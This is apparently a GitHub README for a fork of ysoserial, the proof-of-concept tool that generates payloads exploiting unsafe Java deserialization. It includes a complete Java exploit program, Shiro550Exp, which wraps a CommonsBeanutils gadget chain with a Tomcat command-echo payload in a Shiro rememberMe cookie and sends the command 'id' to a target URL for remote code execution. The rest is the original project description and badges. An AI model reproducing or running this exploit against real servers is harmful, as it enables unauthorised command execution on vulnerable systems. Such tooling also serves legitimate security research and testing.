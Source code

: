 ```java
        System.out.println(new String(resp));
    }
}

```



### shiro550

```java
import ysoserial.payloads.util.HttpRequest;
import ysoserial.payloads.CommonsBeanutils183;
import ysoserial.payloads.Shiro_550;
import ysoserial.payloads.rceecho.TomcatEcho3;

public class Shiro550Exp {
    public static void main(String[] args) throws Exception{
        String url = "http://localhost:8080/shiro550/";
        Object o = new TomcatEcho3().getObject(CommonsBeanutils183.class);
        String cookie = new Shiro_550().getPayload(o);
        byte[] resp = new HttpRequest(url).addHeader("Cookie","rememberMe=" + cookie).addParam("cmd","id").addHeader("cmd","id").send();
        System.out.println(new String(resp));
    }
}
```







# ysoserial

[![Join the chat at https://gitter.im/frohoff/ysoserial](
    https://badges.gitter.im/frohoff/ysoserial.svg)](
    https://gitter.im/frohoff/ysoserial?utm_source=badge&utm_medium=badge&utm_campaign=pr-badge&utm_content=badge)
[![Download Latest Snapshot](https://img.shields.io/badge/download-master-green.svg)](
    https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)
[![Travis Build Status](https://api.travis-ci.com/frohoff/ysoserial.svg?branch=master)](https://travis-ci.com/frohoff/ysoserial)
[![Appveyor Build status](https://ci.appveyor.com/api/projects/status/a8tbk9blgr3yut4g/branch/master?svg=true)](https://ci.appveyor.com/project/frohoff/ysoserial/branch/master)

A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

![logo](ysoserial.png)

## Description

Originally released as part of AppSecCali 2015 Talk
["Marshalling Pickles: how deserializing objects will ruin your day"](
        https://frohoff.github.io/appseccali-marshalling-pickles/)
with gadget chains for Apache Commons Collections (3.x and 4.x), Spring Beans/Core (4.x), and Groovy (2.3.x).
Later updated to include additional gadget chains for
[JRE <= 1.7u21](https://gist.github.com/frohoff/24af7913611f8406eaf3) and several other libraries.
